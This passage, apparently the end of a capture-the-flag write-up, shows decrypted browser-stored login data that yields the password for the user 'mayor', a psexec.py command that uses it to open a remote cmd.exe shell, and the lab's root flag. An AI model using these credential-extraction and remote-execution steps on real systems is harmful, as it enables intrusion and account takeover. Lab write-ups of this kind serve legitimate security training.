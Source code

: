```python
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'f1f75a319f519506d39986e15fe90ade00280879f00ae1e036422f001afc6267'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'dbd2424eabcf4be30180860055c8'
       }
     }
   }
   OCTETSTRING b'22daf82df08cfd8aa7692b00721f870688749d57b09cb1965dde5c353589dd5d'
 }
clearText b'86a15457f119f862f8296e4f2f6b97d9b6b6e9cb7a3204760808080808080808'
decrypting login/password pairs
   https://creds.com:b'mayor',b'8CL7O1N78MdrCIsV'
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250530174226.png)


As seen, we got our credentials:

```
mayor:8CL7O1N78MdrCIsV
```

We can now use `psexec.py` and login with this credentials:

```
python3 psexec.py WORKGROUP/mayor:8CL7O1N78MdrCIsV@IP cmd.exe
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250530174926.png)

There we go, let's read `root` flag:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250530175035.png)

```
C:\Users\mayor\Desktop> type root.txt.txt
{Th3_M4y0r_C0ngr4tul4t3s_U}
```



![](gitbook/cybersecurity/images/Pasted%252520image%25252020250530175102.png)

